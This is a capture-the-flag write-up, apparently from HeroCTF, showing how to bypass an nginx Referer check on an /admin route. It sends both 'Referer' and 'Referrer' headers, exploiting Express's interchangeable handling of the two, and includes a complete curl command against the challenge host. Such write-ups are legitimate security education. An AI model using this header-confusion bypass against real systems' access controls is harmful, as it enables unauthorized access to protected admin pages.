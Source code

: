 I used cURL to build my requests so I had modular control over each of the pieces of my request. I could get my exploit working locally just on the `index.js` file using node to run it. However, this didn't work remotely... I asked the admins before I sunk anymore time down the whole and they said there was more to the project then the app directory. Whoops, I skipped right over the `nginx.conf` file that controls the host. This configuration file contains another thing that checks the Referer field.... of course that's a drag.

```conf
location /admin {
            if ($http_referer !~* "^https://admin\.internal\.com") {
                return 403;
            }

            proxy_pass http://express_app;
            proxy_set_header Host $host;
            proxy_set_header X-Real-IP $remote_addr;
        }
```

This check will make sure the referer is from `https://admin.internal.com` while our ExpressJS route requires our referer to be `YOU_SHOUD_NOT_PASS!`. Welp, how do I pass both through? Reading the ExpressJS backend code, you can see that they state the following:

```js
export interface Request<
    P = ParamsDictionary,
    ResBody = any,
    ReqBody = any,
    ReqQuery = ParsedQs,
    LocalsObj extends Record<string, any> = Record<string, any>
> extends http.IncomingMessage,
        Express.Request {
    /**
     * Return request header.
     *
     * The `Referrer` header field is special-cased,
     * both `Referrer` and `Referer` are interchangeable.
     *
     * ...
     */
```

Essentially, we can have the field say either referer with one or two r's in it. That's our in, I formatted my cURL command to the following and presto!

```bash
curl -H 'Referer: https://admin.internal.com' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7' \
  -H 'Accept-Language: en-US,en;q=0.9' \
  -H 'Cache-Control: max-age=0' \
  -H 'Connection: keep-alive' \
  -H 'If-None-Match: W/"c-Lve95gjOVATpfV8EL5X4nxwjKHE"' \
  -H 'Upgrade-Insecure-Requests: 0' \
  -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36' \
  --compressed \
  --insecure \
  -H 'Referrer: YOU_SHOUD_NOT_PASS!' -v  'http://static-01.heroctf.fr:7000/admin'
```
